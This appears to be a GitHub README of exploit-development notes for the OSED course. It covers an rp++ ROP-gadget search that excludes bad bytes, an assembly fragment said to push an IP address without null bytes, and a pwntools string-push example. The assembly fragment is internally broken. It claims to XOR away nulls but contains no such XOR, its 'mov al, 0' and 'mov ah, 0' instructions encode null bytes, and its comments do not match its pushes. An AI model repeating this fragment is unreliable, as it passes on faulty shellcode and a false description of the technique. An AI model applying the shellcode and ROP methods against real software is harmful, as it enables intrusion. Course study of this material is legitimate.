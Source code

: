 # osed_scripts
Anyscripts I create for osed course I will share here.


## search_rops.txt

This simple script is used to search the output of `rp-win-x86.exe`

Sample way to run and exclude badchars.
```
rp-win-x86.exe -r5 -f <filename> --unique --bad-bytes=\x00\x09\x0a\x0b\x0c\x0d\x20
```


## XORing Null Bytes:

You can XOR the null bytes in the IP address to avoid having literal null bytes in your code. 

For example:
```
    "   push 0x8000000a                 ;"  # Push the IP address (initial push)
    "   xor eax, eax                    ;"  # Clear EAX
    "   mov al, 10                      ;"  # Set the first octet
    "   push eax                        ;"  # Push the first byte of IP address
    "   xor eax, eax                    ;"  # Clear EAX
    "   mov al, 0                       ;"  # Set the second octet
    "   mov ah, 0                       ;"  # Clear AH
    "   push eax                        ;"  # Push the second byte of IP address
    "   xor eax, eax                    ;"  # Clear EAX again for the next octets
    "   mov al, 0                       ;"  # Set the third octet
    "   mov ah, 0                       ;"  # Clear AH
    "   mov al, 0                       ;"  # Clear AL
    "   mov al, 128                     ;"  # Set the last octet
    "   push  eax                        ;"  # Push the third byte of IP address
```


## PWNTOOLS Push String to stack

```
import pwn
>>> print(pwn.shellcraft.i386.pushstr("meowTheCatSaid"))
    /* push 'meowTheCatSaid\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016568
    push 0x61537461
    push 0x43656854
    push 0x776f656d
```